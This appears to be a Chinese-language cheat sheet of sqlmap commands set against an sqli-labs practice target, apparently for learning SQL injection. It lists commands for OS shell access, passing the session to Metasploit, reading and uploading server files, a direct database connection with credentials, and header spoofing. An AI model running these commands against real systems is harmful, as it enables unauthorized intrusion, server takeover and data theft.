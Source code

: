 ```
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1"  --tamper=space2comment.py  #指定脚本进行过滤，用/**/代替空格
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --level=5 --risk=3 #探测等级5，平台危险等级3，都是最高级别。当level=2时，会测试cookie注入。当level=3时，会测试user-agent/referer注入。
sqlmap -u "http://192.168.10.1/sqli/Less-1/?id=1" --sql-shell  #执行指定的sql语句
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-shell/--os-cmd   #执行--os-shell命令，获取目标服务器权限
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --os-pwn   #执行--os-pwn命令，将目标权限弹到MSF上

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-read "c:/test.txt" #读取目标服务器C盘下的test.txt文件
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --file-write  test.txt  --file-dest "e:/hack.txt"  #将本地的test.txt文件上传到目标服务器的E盘下，并且名字为hack.txt

sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --dbms="MySQL"     #指定其数据库为mysql 
其他数据库：Altibase,Apache Derby, CrateDB, Cubrid, Firebird, FrontBase, H2, HSQLDB, IBM DB2, Informix, InterSystems Cache, Mckoi, Microsoft Access, Microsoft SQL Server, MimerSQL, MonetDB, MySQL, Oracle, PostgreSQL, Presto, SAP MaxDB, SQLite, Sybase, Vertica, eXtremeDB
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --random-agent   #使用任意的User-Agent爆破
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --proxy="http://127.0.0.1:8080"    #指定代理
当爆破HTTPS网站会出现超时的话，可以使用参数 --delay=3 --force-ssl
sqlmap -u "http://192.168.10.1/sqli/Less-4/?id=1" --technique T    #指定时间延迟注入，这个参数可以指定sqlmap使用的探测技术，默认情况下会测试所有的方式，当然，我们也可以直接手工指定。
支持的探测方式如下：
　　B: Boolean-based blind SQL injection（布尔型注入）
　　E: Error-based SQL injection（报错型注入）
　　U: UNION query SQL injection（可联合查询注入）
　　S: Stacked queries SQL injection（可多语句查询注入）
　　T: Time-based blind SQL injection（基于时间延迟注入）

sqlmap -d "mysql://root:root@192.168.10.130:3306/mysql" --os-shell   #知道网站的账号密码直接连接

-v3                   #输出详细度  最大值5 会显示请求包和回复包
--threads 5           #指定线程数
--fresh-queries       #清除缓存
--flush-session       #清空会话，重构注入 
--batch               #对所有的交互式的都是默认的
--random-agent        #任意的http头
--tamper base64encode            #对提交的数据进行base64编码
--referer http://www.baidu.com   #伪造referer字段

--keep-alive     保持连接，当出现 [CRITICAL] connection dropped or unknown HTTP status code received. sqlmap is going to retry the request(s) 保错的时候，使用这个参数

```



## 2.get提交：



查数据库：

```
python sqlmap.py -u <url>  -dbs
```
